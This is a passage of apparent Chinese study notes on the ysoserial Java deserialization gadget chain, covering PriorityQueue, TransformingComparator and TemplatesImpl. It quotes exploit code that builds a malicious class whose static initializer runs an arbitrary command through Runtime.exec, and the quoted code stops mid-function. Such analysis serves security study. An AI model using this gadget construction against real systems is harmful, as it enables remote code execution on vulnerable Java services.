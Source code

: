 下面是PriorityQueue.readObject到 Transformer#transform()的链

* readObject:773, PriorityQueue (java.util)  
* heapify:713, PriorityQueue (java.util) 恢复队列中的顺序
* siftDown:667, PriorityQueue (java.util) 将大的元素下移
* siftDownUsingComparator:699, PriorityQueue (java.util) 使用comparator来比较元素大小
* compare:81, TransformingComparator (org.apache.commons.collections4.comparators) TransformingComparator 实现了 java.util.Comparator 接⼝，同时在compare中调用了transform

这里实际上可以套上cc1后半部分的链，但是yso中选用了一条不需要Transformer数组的链

## TemplatesImpl

这里推荐看Java安全漫谈13，我直接给结论

`TemplatesImpl#newTransformer()`可以加载字节码

在`ysoserial`中对其做了封装

`final Object templates = Gadgets.createTemplatesImpl(command);`

具体的实现方法其实是一样的

```java
public static Object createTemplatesImpl ( final String command ) throws Exception {
    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        return createTemplatesImpl(
            command,
            Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
            Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
            Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
    }

    return createTemplatesImpl(command, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
}


public static <T> T createTemplatesImpl ( final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
        throws Exception {
    final T templates = tplClass.newInstance();

    // use template gadget class
    ClassPool pool = ClassPool.getDefault();
    pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
    pool.insertClassPath(new ClassClassPath(abstTranslet));
    
    //用javassist构造恶意类
    final CtClass clazz = pool.get(StubTransletPayload.class.getName());
    // run command in static initializer
    // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
    String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
        command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
        "\");";
    clazz.makeClassInitializer().insertAfter(cmd);
    // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
    clazz.setName("ysoserial.Pwner" + System.nanoTime());
    // TemplatesImpl加载的字节码对应的类必须是org.apache.xalan.internal.xsltc.runtime.AbstractTranslet的子类。
    CtClass superC = pool.get(abstTranslet.getName());
    clazz.setSuperclass(superC);
    
    //恶意类转为字节
    final byte[] classBytes = clazz.toBytecode();

    // inject class bytes into instance
```